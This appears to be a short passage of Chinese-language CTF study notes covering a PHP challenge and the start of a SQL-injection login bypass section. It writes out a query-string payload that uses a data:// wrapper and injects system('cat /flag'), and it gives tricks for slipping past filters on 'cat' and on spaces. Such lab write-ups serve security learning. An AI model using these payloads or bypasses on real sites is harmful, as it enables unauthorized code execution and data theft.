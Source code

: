 ![alt text](image-49.png)
```
/?text=data://text/pain,I have a dream&file=next.php&\S*=${getFlag()}&cmd=system('cat /flag');
注意末尾的';'号
```
![alt text](image-50.png)

## cat绕过，空格绕过
cat使用tac
空格使用$IFS$9

# 2.sql注入
## 2.1 万能账户密码
- 万能密码原理https://blog.csdn.net/hxhxhxhxx/article/details/108020010
- bugku my-first-sqli
- 本体参考https://blog.csdn.net/weixin_40114827/article/details/135323792
进入靶场，提示输入账户密码登录，sql语句是SELECT * FROM USERS WHERE username = ? AND password = ?